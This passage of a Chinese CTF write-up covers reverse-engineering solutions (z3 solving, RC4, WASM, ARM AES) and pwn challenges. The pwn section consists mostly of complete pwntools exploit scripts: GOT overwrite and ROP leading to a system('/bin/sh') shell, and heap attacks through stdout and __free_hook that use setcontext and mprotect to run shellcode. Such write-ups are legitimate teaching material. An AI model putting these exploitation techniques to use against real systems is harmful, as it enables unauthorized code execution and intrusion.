    v6[i] ^= (v6[i]<<13)
    v6[i] ^= v5[(i*7+5)%8]
    v6[i] ^= (v6[i]<<17)
    
print(v6[0])
s.add(data[0]==v6[0],
data[1]==v6[1],
data[2]==v6[2],
data[3]==v6[3],
data[4]==v6[4],
data[5]==v6[5],
data[6]==v6[6],
data[7]==v6[7],
)
print(s.check())

print(s.model())
```

解出：


转成字符即可：

```python
#python
x1 = 828781622
x7 = 943285560
x0 = 1630954594
x3 = 909140836
x5 = 1633759329
x4 = 825516597
x6 = 879047012
x2 = 862085687


def IntToChar( x ):
    for i in range(4):
        a = x%0x100
        print(chr(a),end='')
        x = x//0x100
IntToChar(x0)
IntToChar(x1)
IntToChar(x2)
IntToChar(x3)
IntToChar(x4)
IntToChar(x5)
IntToChar(x6)
IntToChar(x7)
```

执行


bd6a64f17bb3dc065b41a0aad1e48e98


flag{bd6a64f17bb3dc065b41a0aad1e48e98}

### findme

标准RC4，key为`SETCTF2021`

```
q = [hex(i & 0xff)[2:].zfill(2) for i in [0xFFFFFFB7, 0x00000052, 0xFFFFFF85, 0xFFFFFFC1, 0xFFFFFF90, 0xFFFFFFE9, 0x00000007, 0xFFFFFFB8, 0xFFFFFFE4, 0x0000001A, 0xFFFFFFC3, 0xFFFFFFBD, 0x0000001D, 0xFFFFFF8E, 0xFFFFFF85, 0x00000046, 0x00000000, 0x00000021, 0x00000044, 0xFFFFFFAF, 0xFFFFFFEF, 0x00000070, 0x00000032, 0xFFFFFFB5, 0x00000011, 0xFFFFFFC6]]
print("".join(q))
```


### Eat_something

WASM逆向，文件不大，动调分析字节码。定位到`0x325`进行了与密文的对比。也可直接JEB

```
arr = [0xAFF089AC85AA8B86, 0xE56EBFB2DDD669D8, 0x7DF28BBCD5CC99AE, 0xE37A]
arr = [struct.pack("<Q", i) for i in arr]
data = b''.join(arr).replace(b"\x00", b'')
print(data)
print("".join([chr(((v ^ i) // 2)) for i, v in enumerate(data)]))
```

### power

arm汇编

```
arm-linux-gnueabi-as power -o power.o
```

标准AES

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  aes *v3; // r4
  int i; // [sp+0h] [bp+0h]
  char v6[20]; // [sp+8h] [bp+8h] BYREF
  int v7[25]; // [sp+1Ch] [bp+1Ch] BYREF
  char v8[100]; // [sp+80h] [bp+80h] BYREF
  strcpy(v6, "this_is_a_key!!!");
  memset(v7, 0, sizeof(v7));
  memset(v8, 0, sizeof(v8));
  puts("input flag:");
  fgets((char *)v7, 100, (FILE *)stdin);
  v3 = (aes *)operator new(0xB0u);
  aes::aes(v3, v6);
  if ( strlen((const char *)v7) != 33 )
    exit(0);
  LOBYTE(v7[8]) = 0;
  for ( i = 0; i <= 31; i += 16 )
    aes::encryption_cbc(v3, (char *)&v7[i / 4u], &v8[2 * i]);
  if ( !strcmp(v8, "1030a9254d44937bed312da03d2db9adbec5762c2eca7b5853e489d2a140427b") )
    puts("yeah, you get it!");
  else
    puts("wrong!");
  return 0;
}
```

解密


### O

参考：https://hackmd.io/@crazyman/SkyAgiK4F#Reverse

# Pwn

### Magic

```
#coding:utf-8
from pwn import *
context.log_level = 'debug'

sd       = lambda data               :r.send(str(data))        #in case that data is an int
sa      = lambda delim,data         :r.sendafter(str(delim), str(data)) 
sl      = lambda data               :r.sendline(str(data)) 
sla     = lambda delim,data         :r.sendlineafter(str(delim), str(data)) 
rv       = lambda numb=4096          :r.recv(numb)
rud      = lambda delims, drop=True  :r.recvuntil(delims, drop)
ru      = lambda delims, drop=False  :r.recvuntil(delims, drop)
rl      = lambda                    :r.recvline()
irt     = lambda                    :r.interactive()
rs      = lambda *args, **kwargs    :r.start(*args, **kwargs)
dbg     = lambda gs='', **kwargs    :gdb.attach(r,gdbscript=gs, **kwargs)


def SearchFlag(idx):
	ru('Input your choice:') 
	sd('1'+'\x00\x00\x00')
	ru('Input the idx') 
	sd(str(idx)+'\x00\x00\x00')

def MagicFlag(idx, content):
	ru('Input your choice:') 
	sd('2'+'\x00\x00\x00')
	ru('Input the idx') 
	sd(str(idx)+'\x00\x00\x00')
	ru('Input the Magic') 
	sd(content)
	ru("Magic> ") 
	return ru(' <Magic')[:-len(' <Magic')]

def RemoveFlag(idx):
	ru('Input your choice:') 
	sd('3'+'\x00\x00\x00')
	ru('Input the idx') 
	sd(str(idx)+'\x00\x00\x00')

# r = process('./Magic')
r = remote('192.168.107.2','20001')


SearchFlag(0)
base_addr = u64(('\x00' + MagicFlag(0, "a")[1:]).ljust(8, '\x00')) - 0x7ffff7dd1d00 + 0x7ffff7dd25dd
SearchFlag(1)
RemoveFlag(1)	
RemoveFlag(0)	
SearchFlag(0)
flag_addr = u64(('\x00' + MagicFlag(0, "a")[1:]).ljust(8, '\x00')) + 0x55c0b7554240 - 0x55c0b7554000
# print ">>>>>"+hex(flag_addr)

MagicFlag(1, p64(base_addr))
SearchFlag(0)
SearchFlag(0)


ru('Input your choice:') 
sd('2'+'\x00\x00\x00')
ru('Input the idx') 
sd(str(0)+'\x00\x00\x00')
ru('Input the Magic') 
sd('a' * (0x7ffff7dd2620 - 0x7ffff7dd25dd - 0x10) + p64(0xfbad1800) + p64(0) * 3 + p64(flag_addr))
ru('flag{') 
flag = 'flag{'+ru('}')

print flag
r.close()
```

### bbbaby

checksec

[](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/image-20211107234049915.png)

任意地址写：

[](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/image-20211107234215669.png)

`main`函数的栈溢出：

[](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/image-20211107234245292.png)

由于有`canary`，所以需要改掉`__stack_chk_fail@got`的内容

exp

```
#!/usr/bin/python3

from pwncli import *


cli_script()


p:tube = gift['io']

elf:ELF = gift['elf']

libc: ELF = gift['libc']

if gift['remote']:

    libc = ELF("./libc-2.23.so")


def write_any(addr, content):

    p.sendlineafter("your choice\n", "0")

    p.sendlineafter("address:\n", str(addr))

    p.sendafter("content:\n", content)


def stack_overflow(data):

    p.sendlineafter("your choice\n", "1")

    p.sendlineafter("size:\n", str(0x1000))

    p.sendafter("content:\n", data)


# change stack_chk


write_any(0x601020, p64(elf.plt.puts))


payload = flat({

    0x118:[

        0x0000000000400a03,

        elf.got.puts, 

        elf.plt.puts, 

        0x40086c,

        0x4007c7

    ]

})


stack_overflow(payload)


p.sendlineafter("your choice\n", "2")


libc_base = recv_libc_addr(p, offset=libc.sym.puts)

log_libc_base_addr(libc_base)

libc.address = libc_base


p.sendlineafter("address:\n", str(elf.got.atoi))

p.sendafter("content:\n", p64(libc.sym.system))


p.sendline("/bin/sh\x00")


get_flag_when_get_shell(p)


p.interactive()
```

远程打：


### h3apclass

checksec

[](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/image-20211107235035475.png)

保护全开，然后`google`了一下，`libc`版本为`2.31-0ubuntu9.2_amd64`。

漏洞点

[](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/image-20211107235153925.png)

exp

```
#!/usr/bin/python3
from pwncli import *

cli_script()

p:tube = gift['io']
elf:ELF = gift['elf']
libc: ELF = gift['libc']

context.update(timeout=3)

def add(idx, size, data="deadbeef"):
    p.sendlineafter("4:Drop homework\n", "1")
    p.sendlineafter("Which homework?\n", str(idx))
    p.sendlineafter("size:\n", str(size))
    p.sendafter("content:\n", data)

def edit(idx, data):
    p.sendlineafter("4:Drop homework\n", "3")
    p.sendlineafter("Which homework?\n", str(idx))
    p.sendafter("content:\n", data)


def dele(idx):
    p.sendlineafter("4:Drop homework\n", "4")
    p.sendlineafter("Which homework?\n", str(idx))

cat_flag = asm(shellcraft.amd64.linux.cat("/flag"))

# forge 0x500 chunk
add(0, 0x18, 0x18*"a")
add(1, 0xf8)
add(2, 0xf8)
add(3, 0xf8)
add(4, 0xf8)
add(5, 0xf8)
add(6, 0x18)

# free space
dele(6)
dele(5)
dele(4)
dele(3)
dele(2)

# chaneg size
edit(0, 0x18*"a" + "\x01\x05")
dele(1)

# consume 0x100
add(1, 0x70)
add(2, 0x70)

log_ex(f"Now try to attack stdout...")

if gift['debug']:
    payload = p16_ex(get_current_libcbase_addr() + libc.sym['_IO_2_1_stdout_'])
else:
    payload = p16_ex(0x86a0)

add(3, 0x70, payload)

# free space
dele(1)
dele(2)

add(1, 0xf8)

# leak libc addr
add(2, 0xf8, flat([
    0xfffffbad1887, 0, 0, 0, "\x00"
]))

libc_base = recv_libc_addr(p) - 0x1eb980
log_libc_base_addr(libc_base)
libc.address = libc_base

dele(1)
dele(0)

# leak heap addr
edit(3, p64(libc.sym['_IO_2_1_stdout_'])[:6])
add(0, 0x70)
add(1, 0x70, flat([
    0xfbad1887, 0, 0, 0, libc.sym['__curbrk']-8,libc.sym['__curbrk']+8
]))

m = p.recvn(16)
heap_base = u64_ex(m[8:]) - 0x21000
log_heap_base_addr(heap_base)

dele(0)

# change __free_hook
# 0x0000000000154930: mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
edit(3, p64(libc.sym['__free_hook'])[:6])
add(0, 0x70, cat_flag)
add(4, 0x70, p64_ex(0x0000000000154930 + libc_base))

# read flag
cur_heap = heap_base + 0x1450

payload = flat({
    8: cur_heap,
    0x20: libc.sym['setcontext']+61,
    0x30: heap_base + 0x13d0,
    0xa0: cur_heap+0x30, # rsp
    0xa8: libc.sym['mprotect'],
    0x68: heap_base,
    0x70: 0x4000,
    0x88: 7
})

add(5, 0xe8, payload)

dele(5)

m = p.recvline_contains("flag")

if b"flag" in m:
    log_ex_highlight(f"Get flag: {m}")
    sleep(20)

p.close()
```

然后加一个`shell`脚本跑一会儿就能拿到`flag`了。

```
#!/bin/bash

for i in {1..10}

do

    python3 exp.py re ./H3apClass -p 25373 -nl

done
```

远程打：

[](https://lynne-markdown.oss-cn-hangzhou.aliyuncs.com/img/image-20211108000859215.png)

